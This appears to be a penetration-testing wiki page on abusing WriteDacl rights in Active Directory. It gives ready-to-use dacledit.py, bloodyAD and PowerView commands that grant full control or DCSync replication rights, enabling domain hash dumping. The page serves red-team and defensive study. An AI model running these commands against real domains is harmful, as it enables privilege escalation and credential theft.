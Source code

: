 ```yaml
---
authors: CravateRouge, KenjiEndo15, ShutdownRepo
---
```


# Grant rights

This abuse can be carried out when controlling an object that has `WriteDacl` over another object.

The attacker can write a new ACE to the target object’s DACL (Discretionary Access Control List). This can give the attacker full control of the target object.

Instead of giving full control, the same process can be applied to allow an object to [DCSync](../credentials/dumping/dcsync.md) by adding two ACEs with specific Extended Rights (`DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All`). Giving full control leads to the same thing since `GenericAll` includes all `ExtendedRights`, hence the two extended rights needed for DCSync to work.

Story time, Exchange Servers used to have `WriteDacl` over domain objects, allowing attackers to conduct a [PrivExchange](../exchange-services/privexchange.md) attack where control would be gained over an Exchange Server which would then be used to grant an attacker-controlled object DCSync privileges to the domain.

> [!TIP] ACE inheritance
> 
> If attacker can write an ACE (`WriteDacl`) for a container or organisational unit (OU), if inheritance flags are added (`0x01+ 0x02`) to the ACE, and inheritance is enabled for an object in that container/OU, the ACE will be applied to it. By default, all the objects with `AdminCount=0` will inherit ACEs from their parent container/OU.
> 
> Impacket's dacledit (Python) can be used with the `-inheritance` flag for that purpose ([PR#1291](https://github.com/fortra/impacket/pull/1291)).

> [!TIP] adminCount=1 (gPLink spoofing)
> 
> In April 2024, [Synacktiv explained](https://www.synacktiv.com/en/publications/ounedpy-exploiting-hidden-organizational-units-acl-attack-vectors-in-active-directory) that if `GenericAll`, `GenericWrite` or `Manage Group Policy Links` privileges are available against an Organisational Unit (OU), then it's possible to compromise its child users and computers with `adminCount=1` through "gPLink spoofing".
> 
> This can be performed with [OUned.py](https://github.com/synacktiv/OUned).

::: tabs

=== UNIX-like

From UNIX-like systems, this can be done with [Impacket](https://github.com/SecureAuthCorp/impacket)'s dacledit.py (Python).

```bash
# Give full control
dacledit.py -action 'write' -rights 'FullControl' -principal 'controlled_object' -target 'target_object' "$DOMAIN"/"$USER":"$PASSWORD"

# Give DCSync (DS-Replication-Get-Changes, DS-Replication-Get-Changes-All)
dacledit.py -action 'write' -rights 'DCSync' -principal 'controlled_object' -target 'target_object' "$DOMAIN"/"$USER":"$PASSWORD"
```

For a DCSync granting attack, instead of using dacledit, [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) has the ability to operate that abuse with the `--escalate-user` option (see [this](https://medium.com/@arkanoidctf/hackthebox-writeup-forest-4db0de793f96)).

To enable inheritance, the `-inheritance` switch can be added to the command. Then it is possible to find interesting targets with `AdminCount=0`in BloodHound for example, by looking at the object attributs.

```bash
# Give full control on the Users container with inheritance to the child object
dacledit.py -action 'write' -rights 'FullControl' -principal 'controlled_object' -target-dn 'CN=Users,DC=domain,DC=local' -inheritance "$DOMAIN"/"$USER":"$PASSWORD"
```

Alternatively, it can be achieved using [bloodyAD](https://github.com/CravateRouge/bloodyAD)

```bash
# Give full control (with inheritance to the child object if applicable)
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" add genericAll "$TargetObject" "$ControlledPrincipal"

# Give DCSync (DS-Replication-Get-Changes, DS-Replication-Get-Changes-All)
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" add dcsync "$ControlledPrincipal"
```


=== Windows

From a Windows system, this can be achieved with [Add-DomainObjectAcl](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainObjectAcl/) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module).

```bash
# Give full control
Add-DomainObjectAcl -Rights 'All' -TargetIdentity "target_object" -PrincipalIdentity "controlled_object"

# Give DCSync (DS-Replication-Get-Changes, DS-Replication-Get-Changes-All)
Add-DomainObjectAcl -Rights 'All' -TargetIdentity "target_object" -PrincipalIdentity "controlled_object"
```

> [!TIP]
> A few tests showed the `Add-DomainObjectAcl` command needed to be run with the `-Credential` and `-Domain` options in order to work

:::


## Resources

[http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/](http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/)

[https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync)
